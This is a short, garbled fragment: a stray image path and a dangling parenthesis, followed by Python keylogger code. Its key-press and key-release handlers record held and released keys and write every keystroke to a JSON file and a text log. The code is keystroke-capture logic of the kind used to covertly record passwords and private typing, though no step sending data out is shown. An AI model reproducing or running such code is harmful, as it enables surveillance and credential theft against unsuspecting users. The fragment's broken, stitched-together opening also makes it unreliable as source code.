

)
        flag = True

    if flag == True:
        keys_used.append(
            {'Held': f'{key}'}
        )
    generate_json_file(keys_used)

def on_release(key):
    global flag, keys_used, keys
    keys_used.append(
        {'Released': f'{key}'}
    )

    if flag == True:
        flag = False
    generate_json_file(keys_used)

    keys = keys + str(key)
    generate_text_log(str(keys))